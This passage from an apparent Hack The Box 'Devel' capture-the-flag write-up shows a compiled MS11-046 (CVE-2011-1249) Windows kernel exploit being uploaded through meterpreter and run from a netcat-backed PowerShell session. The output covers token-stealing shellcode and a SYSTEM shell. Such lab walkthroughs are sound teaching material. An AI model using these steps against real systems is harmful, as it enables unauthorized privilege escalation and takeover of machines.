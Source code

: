 So now i'll upload the exploit to the target

```
meterpreter > upload /home/mark/Desktop/B2B/HTB/Devel/MS11-046.exe
[*] uploading  : /home/mark/Desktop/B2B/HTB/Devel/MS11-046.exe -> MS11-046.exe
[*] Uploaded 110.17 KiB of 110.17 KiB (100.0%): /home/mark/Desktop/B2B/HTB/Devel/MS11-046.exe -> MS11-046.exe
[*] uploaded   : /home/mark/Desktop/B2B/HTB/Devel/MS11-046.exe -> MS11-046.exe
meterpreter > 
```

Now on running it but on the powershell netcat session

```
PS C:\windows\temp\haxor> ./MS11-046.exe

c:\Windows\System32>[*] MS11-046 (CVE-2011-1249) x86 exploit
   [*] by Tomislav Paskalev
[*] Identifying OS
   [+] 32-bit
   [+] Windows 7
[*] Locating required OS components
   [+] ntkrnlpa.exe
      [*] Address:      0x82846000
      [*] Offset:       0x00910000
      [+] HalDispatchTable
         [*] Offset:    0x00a393b8
   [+] NtQueryIntervalProfile
      [*] Address:      0x77b65510
   [+] ZwDeviceIoControlFile
      [*] Address:      0x77b64ca0
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request
      [+] Done
      [*] Elevating privileges to SYSTEM
         [+] Done
         [*] Spawning shell

[*] Exiting SYSTEM shell
PS C:\windows\temp\haxor> 
```
